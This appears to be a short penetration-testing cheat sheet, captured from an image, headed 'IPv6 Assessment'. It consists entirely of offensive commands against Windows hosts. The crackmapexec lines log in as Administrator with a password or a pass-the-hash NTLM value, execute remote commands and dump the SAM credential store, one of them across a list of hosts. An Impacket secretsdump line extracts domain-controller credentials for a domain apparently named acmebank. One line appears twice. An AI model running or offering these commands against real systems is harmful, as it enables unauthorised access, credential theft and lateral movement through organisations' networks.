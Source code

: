 ### IPv6 Assessment
| for Example  |
| ------------- |
|crackmapexec 2001:db7::1234:1 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:db7::1234:1 -u Administrator -H "aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86" --sam |
|crackmapexec 2001:db7::1234:1 -u Administrator -H "aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86" -x "hostname"|
|python secretsdump.py -hashes "aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86" -just-dc acmebank.loca/Administrator@2001:db7::1234:1 |
|crackmapexec 2001:db7::1234:1 -u Administrator -p 'Passw0rd' -x "ipconfig" |
